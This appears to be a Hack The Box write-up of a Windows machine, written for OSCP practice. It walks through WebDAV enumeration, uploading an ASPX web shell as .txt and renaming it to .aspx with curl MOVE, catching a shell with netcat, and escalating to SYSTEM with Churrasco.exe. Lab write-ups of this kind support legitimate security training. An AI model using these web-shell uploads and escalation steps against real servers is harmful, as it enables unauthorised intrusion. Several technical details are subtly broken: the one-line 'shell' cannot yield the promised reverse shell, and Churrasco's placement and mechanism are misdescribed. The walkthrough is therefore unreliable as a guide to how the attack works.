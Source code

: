## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **Exploits Used**:  
  - Protocol WebDAV PUT/MOVE  
  - File extension bypass via `.txt → .aspx`  
  - Local PrivEsc using `Churrasco.exe`  
- **Open Ports:**  
  - [HTTP](HTTP) 80/tcp  

---

## TLDR 🚀
- **Find** WebDAV enabled on the web server (allows PUT/MOVE).  
- **Upload** a simple ASPX web‑shell disguised as `.txt`, then **MOVE** it to `.aspx`.  
- **Invoke** the shell for remote code execution and grab a low‑privilege shell.  
- **Enumerate** locally, discover `Churrasco.exe` installed with weak permissions.  
- **Run** `Churrasco.exe` to escalate to SYSTEM.  

---

## Recon & Enumeration 🕵️‍♂️

1. **Port scan** (HTTP only):  
   ```bash
   nmap -p80 --script http-methods --script-args http-methods.url-path=/ 10.129.83.212
   ```
   - Shows `OPTIONS`, `GET`, `HEAD`, **`PUT`**, **`MOVE`**, etc. indicating WebDAV support.

2. **Directory brute-forcing** (optional):  
   ```bash
   gobuster dir -u http://10.129.83.212/ -w /usr/share/wordlists/common.txt -x txt,aspx
   ```
   - No obvious upload form—WebDAV is the vector.

3. **Confirm WebDAV** with a simple `OPTIONS` request:  
   ```bash
   curl -i -X OPTIONS http://10.129.83.212/
   ```
   - Look for `DAV: 1,2` in the response headers.

---

## Exploitation 🚀

### 1. WebDAV Upload & File‑Extension Bypass  
1. **Craft** a minimal ASPX web‑shell (`shell.txt`):
   ```asp
   <% System.Diagnostics.Process.Start("cmd.exe"); %>
   ```
2. **Upload** it to the server (anonymous WebDAV):
   ```bash
   curl -v -T shell.txt http://10.129.83.212/shell.txt
   ```
3. **Rename** it to `.aspx` so IIS will execute it:
   ```bash
   curl -v -X MOVE \
     -H "Destination: http://10.129.83.212/shell.aspx" \
     http://10.129.83.212/shell.txt
   ```
4. **Trigger** the shell:
   - Point your browser or use `curl`:
     ```bash
     curl http://10.129.83.212/shell.aspx
     ```
   - You’ll get a **reverse shell** if you’ve got a listener ready.

5. **Listener** on your machine:
   ```bash
   nc -lvnp 4444
   ```
   - Connects back as a low‑privilege Windows user.

---

## Local Privilege Escalation 🔒 → 🔓

1. **Basic enumeration**:
   ```powershell
   whoami /priv
   dir "C:\Program Files" | findstr /i Churrasco
   ```
2. **Discover** `C:\Program Files\Churrasco\Churrasco.exe` with **weak ACLs** (everyone can execute).
3. **Exploit** with the official tool:
   ```powershell
   cd "C:\Program Files\Churrasco"
   .\Churrasco.exe
   ```
   - This leverages a known COM/UAC bypass to spawn a SYSTEM shell.
4. **Verify** SYSTEM:
   ```powershell
   whoami
   # → nt authority\system
   ```

---

## Tools 🛠️
- **nmap** – port & WebDAV enumeration  
- **gobuster** – directory brute‑forcing  
- **curl** – WebDAV PUT/MOVE & shell trigger  
- **netcat** – reverse shell listener  
- **Churrasco.exe** – local PrivEsc  

---

## Commands to Solve Box 📝

```bash
# 1. Scan for WebDAV support
nmap -p80 --script http-methods --script-args http-methods.url-path=/ 10.129.83.212

# 2. Upload web‑shell disguised as .txt
curl -v -T shell.txt http://10.129.83.212/shell.txt

# 3. Rename to .aspx
curl -v -X MOVE \
  -H "Destination: http://10.129.83.212/shell.aspx" \
  http://10.129.83.212/shell.txt

# 4. Trigger shell (in another terminal)
nc -lvnp 4444

# 5. On the box, enumerate for Churrasco.exe
whoami & whoami /priv
dir "C:\Program Files" | findstr /i Churrasco

# 6. Run Churrasco for SYSTEM
cd "C:\Program Files\Churrasco"
.\Churrasco.exe
whoami  # should return nt authority\system
```

---

## Actions Learned 💡
- How to **leverage WebDAV** on IIS for anonymous file upload (PUT/MOVE).  
- Trick IIS into executing a file by **bypassing extension restrictions** (`.txt` → `.aspx`).  
- Basic Windows **local enumeration** to spot weakly‑permissioned binaries.  
- Use of **Churrasco.exe** for UAC/COM bypass to escalate from a regular user to SYSTEM.

---

## References 📚
- WebDAV PUT/MOVE on IIS:  
  – https://docs.microsoft.com/en-us/iis/configuration/system.webserver/webdav  
- HTTP Methods enumeration with Nmap:  
  – https://nmap.org/nsedoc/scripts/http-methods.html  
- Churrasco Privilege Escalation:  
  – https://github.com/adamd00/Churrasco  
- HTB WebDAV write‑up examples:  
  – https://0xdf.gitlab.io/ (for inspiration)  